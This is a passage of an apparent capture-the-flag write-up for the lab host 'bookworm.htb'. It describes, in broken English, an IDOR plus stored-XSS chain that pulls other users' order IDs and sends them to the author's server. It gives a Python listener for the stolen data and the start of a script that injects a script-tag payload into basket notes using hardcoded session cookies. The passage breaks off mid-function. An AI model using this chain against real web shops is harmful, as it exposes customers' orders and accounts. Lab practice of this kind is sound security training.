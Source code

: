 

# Script
I've been created POC to create new basket id and inject ou payload into them using the  `IDOR` vulnerability and with `Xss` attack to get order a list of orders from existing users. Xss attack used for sending the orders from existing users to my webserver and i can get the a list of orders victim's basket . The code at the below used for find victim's orders id try one by one id also including with my malicious code javascript and after i running this poc i will got orders id victim.

- post.py
```
from http.server import BaseHTTPRequestHandler, HTTPServer

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        print(post_data.decode('utf-8'))
        self.send_response(200)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleHTTPRequestHandler, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f"Starting server on port {port}")
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```



- basket.py
```
import re
import requests

# Update with the current session cookie
cookies = {
    "session": "eyJmbGFzaE1lc3NhZ2UiOnt9LCJ1c2VyIjp7ImlkIjoxNCwibmFtZSI6ImRkc2QiLCJhdmF0YXIiOiIvc3RhdGljL2ltZy91c2VyLnBuZyJ9fQ==",
    "session.sig": "-5nNf6x7vzlHPXj1CVaOCVxg2QM"
}

headers = {
    "Cache-Control": "max-age=0",
    "Content-Type": "application/x-www-form-urlencoded"
}

# Update with the profile image ID
data = {
    "quantity": "1",
    "note": "<script src=\"/static/img/uploads/14\"></script>"
}

prev_id = ""

def get_id():
    try:
        response = requests.get('http://bookworm.htb/shop', headers=headers, cookies=cookies)
        find = r"<!-- (\d+) -->"
        match = re.search(find, response.text)
        if match:
            return match.group(1)
```
